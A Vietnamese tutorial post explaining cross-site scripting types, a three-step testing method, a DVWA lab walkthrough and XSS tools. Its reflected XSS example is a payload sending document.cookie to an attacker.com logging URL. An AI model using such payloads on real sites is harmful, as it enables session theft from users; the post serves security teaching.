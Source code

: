 ![](https://images.viblo.asia/0a88abeb-3760-4195-b903-594706b2461b.png)

Hình ảnh trên minh họa cho lỗ hổng XSS

Lỗ hổng Cross-Site Scripting là lỗ hổng phổ biến nhất được tìm thấy trên ứng dụng web. Lỗ hổng này được đánh giá là nguy hiểm và đến bây giờ vẫn còn rất phổ biến. Theo thống kê của OWASP thì lỗ hổng này đứng thứ 3 trong [top 10 OWASP năm 2013](https://www.owasp.org/index.php/Top_10_2013-Top_10) và đứng thứ 7 trong [top 10 OWASP năm 2017](https://www.owasp.org/index.php/Top_10-2017_Top_10).
 
Trong bài này, chúng ta sẽ tìm hiểu XSS là gì? Cũng như cách phát hiện và cách khai thác.
# 1. XSS là gì?
XSS là viết tắt của Cross-Site Scripting (có tên gọi như vậy là vì người ta không muốn nhầm lẫn với CSS - Cascading Style Sheets trong HTML) là một lỗ hổng web. Nó cho phép người tấn công chèn các mã kịch bản (thường là JavaScript), html,... lên website. Lỗ hổng này sẽ tấn công bên phía người dùng (Client) thay vì tấn công lên server.
# 2. Phân loại
*[Theo wikipedia thì XSS được chia thành 5 loại](https://en.wikipedia.org/wiki/Cross-site_scripting#Types)*.
*  Non-persistent (reflected)
*  Persistent (or stored)
*   Server-side versus DOM-based vulnerabilities
*   Self-XSS
*   Mutated XSS (mXSS)

Nhưng thường thì XSS được biết đến 3 loại chính: reflected XSS, stored XSS, DOM-based XSS.
Và trong bài sẽ chỉ đề cập đến 3 loại này.
## 1. Reflected XSS
Reflected XSS xảy ra khi người tấn công chèn các mã độc hại vào một request HTTP tới server, server sẽ trả lại những gì đã gửi lên. Các đoạn mã này không được ứng dụng lưu lại, nó chỉ có ảnh hưởng tới người gửi request có chứa mã độc này. Thường mã này chứa trong URI, khi người dùng click vào sẽ dính chưởng của người tấn công. Khi rời khỏi URI chứa mã độc thì người dùng không bị ảnh hưởng bởi nó nữa.

Và đây cũng là loại lỗ phổ biến nhất trong thực tế. Ngoài cái tên reflected XSS thì nó còn được biết đến với cái tên non-persistent XSS hay first-order hay loại 1 XSS.

Ví dụ:
```js
https://example.com/news?q=<script>document.location='https://attacker.com/log.php?c=' + encodeURIComponent(document.cookie)</script>
```
## 2. Stored XSS
Ngược lại với reflected XSS, Stored XSS sẽ được ứng dụng lưu lại. Khi kẻ tấn công gửi các mã độc hại lên server mà server không lọc trước khi lưu trữ thì server sẽ là nơi lưu trữ kho mã độc khổng lồ để tấn công người dùng. Bất cứ khi nào người dùng vào trang có chứa mã độc thì nó lập tức phát huy công dụng. Các đoạn mã này thường nằm trong các bình luận, đoạn tin nhắn, thông báo,...

Ngoài cái tên stored XSS nó còn được biết đến cái tên persistent XSS hay second-order XSS.
## 3. DOM-based XSS
DOM-based XSS (hay còn gọi là DOM XSS) xảy ra khi ứng dụng chứa các đoạn mã JavaScript xử lý dữ liệu một cách không an toàn.

Ví dụ: người dùng tìm kiếm với từ khóa **xss**, sau khi kết quả trả về thì một hàm nào đó trong JS (JavaScript) sẽ dùng kết quả này để xử lý và hiển thị dữ liệu ra cho người tùy vào việc người dùng nhập vào. Khi đó người tấn công sẽ đưa các mã độc vào để thực hiện tấn công người dùng.
# 3. Cách kiểm tra
Ở trên là một mớ lý thuyết lùng nhùng. Và tiếp theo đây sẽ là mớ lý thuyết nữa để ta có thể tiến hành khai thác lỗi XSS. Về cơ bản, để kiểm tra một trang web có dính lỗi XSS hay không sẽ gồm 3 bước.
## Bước 1. Tìm kiếm các điểm nhập khả nghi
Đầu tiên ta sẽ tìm các điểm nhập (hay những nơi cho phép ta nhập dữ liệu vào để xử lý) khả nghi. Nó có thể là ô tìm kiếm, ô bình luận, cookie, input form,...
Sau khi xác định sơ bộ các nơi khả nghi rồi ta tiến hành đến bước thứ 2.
## Bước 2. Phân tích các điểm nhập
Bước này sẽ là bước tiếp theo sau bước 1. Tiến hành phân tích mã nguồn HTML và JS để có tạo dữ liệu có thể khiến ứng dụng sinh ra lỗi. Dữ liệu tạo ra cần phù hợp với website đang thử nghiệm, nếu không sử dụng các JS thì cần đầu vào như nào thì có thể phát hiện ra lỗi. Nếu dùng Framework thì cần đầu vào như nào?

Bình thường thì ứng dụng web sẽ mã hóa những ký tự bất thường có thể sinh lỗi, khi đó ta cần tìm cách vượt qua. Nếu không thể vượt qua thì thôi.
## Bước 3. Phân tích kết quả trả về và xác định lỗi
Với mỗi dữ liệu nhập vào từ bước trên ta sẽ tiến hành phân tích kết quả trả về. Kiểm tra xem các ký tự đặc biệt, hay những ký tự phục vụ cho mục đích tạo mã độc có bị encode hay biến mất không. Nếu các ký tự cần thiết vẫn xuất hiện bình thường thì đã ứng dụng có tồn tại lỗ hổng. Nếu không thì quay lại bước 2 đến khi hết cách thì thôi.
# 4. Thực hành
Sau hai phần dài toàn lý thuyết suông thì phần này sẽ thực hành để cho não nghỉ ngơi.
Phần thực hành này sẽ được thực hiện thông qua [DVWA](www.dvwa.co.uk). Có nhiều môi trường thử nghiệm khác như: [bWapp](http://www.itsecgames.com/), [WebGoat](https://github.com/WebGoat/WebGoat/releases),... Chọn đai một cái để thực hành thôi. Tất cả chúng đều có thể tải [docker](https://www.docker.com/) về để sử dụng cho đỡ mất công. 

**[Danh sách docker phục vụ việc thực hành](https://termilus.com/blog/2016/11/07/penetration-testing-exercises-using-docker/)**
 
Đầu tiên ta cần tìm nơi để điền thông tin. Vì đây là lab nên không cần tìm mà nó hiện ngay trước mắt.
![](https://images.viblo.asia/91a26ed8-b097-4352-ad6d-a8c26b9c4ef4.png)

Tiếp theo ta sẽ điền vào một đầu vào chứa ký tự đặc biệt để có thể gây ra lỗi: `<XXX>`. Để xem ứng dụng web sẽ đối xử với dữ liệu ta nhập vào như nào!
![](https://images.viblo.asia/b6e48ca9-32c8-4817-b17a-77412c1cbe24.png)
 
Ở đây, ta thấy không hiển thị phần dữ liệu ta nhập vào. Vậy, thử xem trong source code xem thế nào, nhấn crt+u để xem source code.
![](https://images.viblo.asia/421fdc41-dc54-4c59-9129-4458fa2d6831.png)
 
Vậy là trong source code có dữ liệu nhưng mà không hiển thị ra. Dựa vào dấu hiệu lỗi trên, ta sửa lại playload (đoạn mã khai thác). Ta chọn đoạn mã `<script>alert('XSS')</script>` để thử.
![](https://images.viblo.asia/bf687658-e766-470e-8e97-a8b32bfc4762.png)

Sau khi nhập vào: `<script>alert('XSS')</script>` thì ta đã thực được kịch bản mong muốn là hiển thị lên dòng chữ **XSS**. Đến đây thì công việc tìm kiếm và khai thác đã hoàn tất :).
 
Vậy là ta đã đi qua lý thuyết cũng như thực hành rất cơ bản để hiểu XSS là gì và tiến hành khai thác lỗi XSS cơ bản.
Phần cuối cùng là một vài tool giúp ta tìm lỗi XSS và khai thác tự động.
 
# 5. Tool And References
## 5.1 Tool
* [Burp Suite](https://portswigger.net/burp) sử dụng làm proxy để bắt các request qua lại giữ client và server.
* [Xenotix](https://github.com/ajinabraham/OWASP-Xenotix-XSS-Exploit-Framework#owasp-xenotix-xss-exploit-framework) công cụ quét lỗ hổng XSS tự động.
* [XSStrike](https://github.com/s0md3v/XSStrike) dùng để quét tự động, chỉ quét lỗ reflected XSS.
* [BeEF](https://beefproject.com/) sử dụng để khai thác lỗi XSS.
* [XSS Proxy](http://xss-proxy.sourceforge.net/) giống BeEF.
## 5.2 References
* [XSS in Wiki](https://en.wikipedia.org/wiki/Cross-site_scripting)
* [XSS in Portswigger](https://portswigger.net/web-security/cross-site-scripting)
* [XSS in CloudFlare](https://www.cloudflare.com/learning/security/threats/cross-site-scripting/)